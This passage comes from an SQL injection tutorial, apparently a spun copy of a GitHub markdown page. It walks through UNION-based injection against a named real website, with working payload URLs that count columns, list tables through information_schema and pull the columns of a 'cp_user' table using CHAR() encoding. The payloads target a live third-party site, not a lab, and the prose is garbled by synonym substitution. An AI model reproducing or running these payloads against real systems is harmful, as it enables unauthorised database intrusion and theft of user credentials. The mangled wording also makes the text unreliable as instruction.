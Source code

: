 Utilizing "association select columns_sequence" we can track down the weak piece of the table. Supplant the "request by n" with this assertion. Furthermore, change the id worth to negative(i mean id=-2, must change, but in some sites might work without evolving).

Supplant the columns_sequence with the no from 1 to x-1(number of sections) isolated with commas(,).

on the off chance that the quantity of segments is 5 ,the query is as follow:-

```
http://www.pha.org.pk/sro_list.php?catid=-1 +UNION+ALL+SELECT+1,2,3,4,5--+---
```

It will show a few numbers in the page(it should be not exactly 'x' esteem, I mean not exactly or equl to number of sections).

![enter image description here](https://i.postimg.cc/6qxZjX66/step-4.png)

Presently select 1 number.
It showing 3,4. How about we take Number 3.

#### Stage 5: Finding the Table Name

Presently we need to track down the table name of the information base. Supplant the 3 with “group_concat(table_name) and add the “from information_schema.tables where table_schema=database()”

Ex.

```
http://www.pha.org.pk/sro_list.php?catid=-1 +UNION+ALL+SELECT+1,2,group_concat(table_name,0x3c6c693e),4,5 from information_schema.tables where table_schema=database()--+-
```

0x3c6c693e this one use to list

![enter image description here](https://i.postimg.cc/tTQ7yNK2/step-5.png)

Now select the “cp_user ” table.

#### Stage 6: Finding the Column Name

Presently supplant the "group_concat(table_name) with the "group_concat(column_name)"

Supplant the "from information_schema.tables where table_schema=database()– " with "FROM information_schema.columns WHERE table_name=mysqlchar–

Presently listen cautiously,we need to discover convert the table name to MySql CHAR() string and supplant mysqlchar with that.

Discover MysqlChar() for Tablename:

Most importantly, introduce the HackBar addon: https://github.com/Xero-Zero/HackBar-Mod-Pro-

select sql->Mysql->MysqlChar()

Reorder the code toward the finish of the url rather than the "mysqlchar"

Ex.

```
 http://www.pha.org.pk/sro_list.php?catid=-1 +UNION+ALL+SELECT+1,2,group_concat(column_name,0x3c6c693e),4,5 from information_schema.columns where table_name=CHAR(99, 112, 95, 117, 115, 101, 114)--+-
```

